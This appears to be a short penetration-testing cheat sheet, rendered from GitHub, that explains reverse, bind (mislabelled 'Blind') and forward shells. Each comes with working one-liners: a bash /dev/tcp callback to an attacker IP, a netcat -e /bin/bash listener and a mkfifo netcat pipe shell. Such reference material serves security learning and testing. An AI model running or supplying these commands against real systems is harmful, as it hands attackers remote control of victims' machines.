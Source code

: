# Reverse Shell

- This technique that allows an attacker to connect to a remote machine from their own machine. It establishes a connection from the compromised machine to the attacker's machine. This is achieved by executing a malicious program or a specific instruction on the remote machine that establishes a connection back to the attacker's machine, allowing them to take control of the remote machine.

```ruby
# On the attacker's machine (IP: 192.168.1.100)
nc -lvnp 4444

# On the victim's machine
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

```

# Blind Shell

- This technique is the opposite of a Reverse Shell. Instead of the compromised machine connecting to the attacker's machine, the attacker connects to the compromised machine. The attacker listens on a specific port, and the compromised machine accepts the incoming connection on that port. The attacker then has console access to the compromised machine, allowing them to take control of it.

```ruby
# On the victim's machine
nc -lvnp 4444 -e /bin/bash

# On the attacker's machine
nc 192.168.1.200 4444
```

# Forward Shell

- This technique is used when Reverse or Bind connections cannot be established due to Firewall rules implemented in the network. It is achieved using mkfifo, which creates a FIFO (named pipe) file that is used as a kind of "simulated console" through which the attacker can operate on the remote machine. Instead of establishing a direct connection, the attacker redirects traffic through the FIFO file, allowing bidirectional communication with the remote machine.

```ruby
# On the victim's machine
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 4444 > /tmp/f

# On the attacker's machine
nc 192.168.1.200 4444

``` 

## Link

```ruby
https://github.com/s4vitar/ttyoverhttp
```
